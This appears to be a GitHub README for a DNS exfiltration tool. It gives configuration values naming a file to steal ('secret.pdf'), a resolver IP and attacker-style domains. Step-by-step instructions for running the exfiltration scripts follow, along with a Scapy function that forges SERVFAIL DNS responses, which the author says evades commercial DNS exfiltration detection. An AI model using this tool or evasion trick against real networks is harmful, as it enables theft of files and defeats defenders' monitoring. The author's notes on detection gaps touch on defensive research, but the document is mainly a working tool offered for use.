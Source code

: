 # DNS-Exfiltration
Mudik DNS Exfiltration</br>
![image](https://github.com/spatronn/DNS-Exfiltration/assets/27374567/98b43ade-ae4b-4e0f-83cd-d5c48c7e76eb)



<b>Change the parameter according to your environment:</b></br>
//Enter your DNS Resolver (client.py)</br>
dns_server = "3.253.51.115"</br>
//Specify the file you want to exfiltrate instead of secret.pdf (client.py)</br>
with open("secret.pdf", "rb") as pdf_file:</br>
//Define the domain or domains you will use in DNS Exfiltration. (client.py)</br>
domain_list = ["dnsmalwaredaddy.online","laleler-denemeler.top"]</br>


STEP-1</br>
Install requirements</br>
STEP-2</br>
Run server.py on your name server.Make sure that the DNS service is not running on this server.</br>
STEP-3</br>
Modified client.py according to your environment.</br>
STEP-4</br>
Run client.py</br>
STEP-5</br>
Once exfiltration is complete, run recreate_exfiltration_data.py to deduplicate and collect the data.</br>
STEP-6 Final</br>
We run decode_save_file.py to decode the file created in STEP-5 and access the original file.


<b>Explanation & Personal Notes</b></br>
Many DNS security providers claim they can detect DNS exfiltration. When testing various methods or examining test results, we often find that many of them indeed succeed in detecting it. However, I’m not entirely sure what’s happening behind the scenes. Could it be the high frequency of queries sent within a short time? Or perhaps the fact that queries and responses are flagged as NXDOMAIN within that interval? Maybe it’s when DNS queries with the same type (e.g., DNS A, DNS AAAA, DNS TXT, etc.) are sent to the same domain within a set timeframe and also return NXDOMAIN responses? It could even be the entropy score of the DNS queries falling above or below a certain threshold, the domain being newly observed, or being flagged in Domain Threat Intelligence. Or maybe it’s a combination of all these factors? I’m not certain.

However, during testing, I noticed an interesting anomaly. By generating a SERVFAIL response with Scapy and sending this response for all exfiltration DNS queries, DNS exfiltration oddly continues undetected. 

###################################################################################</br>
def reply_dns_fail_response (client_ip_addr,client_dport,client_dns_id,dns_qname,dns_query_type):
    reply_dns_fail_response = IP(id=RandShort(),dst=client_ip_addr)/UDP(sport=53, dport=client_dport)/DNS(id=client_dns_id,qr=1,rd=1,rcode=2,arcount=1,qd=DNSQR(qname=dns_qname,qtype=dns_query_type,qclass="IN")) / DNSRROPT(type="OPT",rclass=4000,version=0)
    send(reply_dns_fail_response,verbose=False)
###################################################################################

In this scenario, providers that claim to detect DNS exfiltration surprisingly fail to do so. Simply put, there’s a fire in the kitchen.</br>
![image](https://tammy.ai/_next/image?url=https%3A%2F%2Fi.ytimg.com%2Fvi%2FPnI1MhNuL3M%2Fhqdefault.jpg&w=640&q=75)</br>

https://datatracker.ietf.org/doc/html/rfc2929#section-2.3

Upon reviewing the RFC, we actually have many possible responses at our disposal. This case is not closed yet. To be continued...
